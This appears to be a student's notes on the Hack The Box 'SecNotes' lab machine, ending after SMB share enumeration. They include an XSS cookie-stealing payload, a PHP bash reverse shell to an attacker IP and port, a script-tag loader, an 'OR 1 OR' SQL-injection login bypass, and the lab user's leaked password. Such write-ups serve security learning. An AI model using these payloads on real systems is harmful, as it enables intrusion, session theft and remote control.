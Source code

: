 - Registered account `user:password` and logged in
- Used Burpsuite to capture `GET` and `POST` http requests
- On the Home page and Contact Us page the email `tyler@secnotes.htb` is leaked
- Trying Intruder tab with Sniper in Burpsuite to bruteforce tyler's password. No luck
- Capturing more http requests
	- Change password page is `/change_pass.php`

- Vulnerable to XSS, successful alert:
	- `#"><img src=/ onerror=alert(document.cookie)>`
	- Added a new note with account `user:password` I created and got an alert popup showing cookie `PHPSESSID=mlqks3m0mp9onel04id20me9m8`
	- Attempt reverse shell with php
```php revshell.php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.4/4444 0>&1'"); ?>
```

- Python server to transfer file:
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
```

- Note to submit in webapp to grab file:
```
#"><script src="http://10.10.14.4/revshell.php"></script>
```
- Not successful
- Following walkthrough below

# Foothold 
- gain shell via exploit
- Create an account via sign in page with `'OR 1 OR'` as username and password
- Login, and see all notes
- We can now see Tyler's creds `tyler:92g!mA8BGjOirkL%OG*&` under the note `new site`
- Enumerated shares
```
┌──(root㉿kali)-[~/Downloads]
└─# smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
 SMBMap - Samba Share Enumerator v1.10.2 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authentidated session(s)                                                      
                                                                                                                                            
[+] IP: 10.10.10.97:445 Name: secnotes.htb              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```
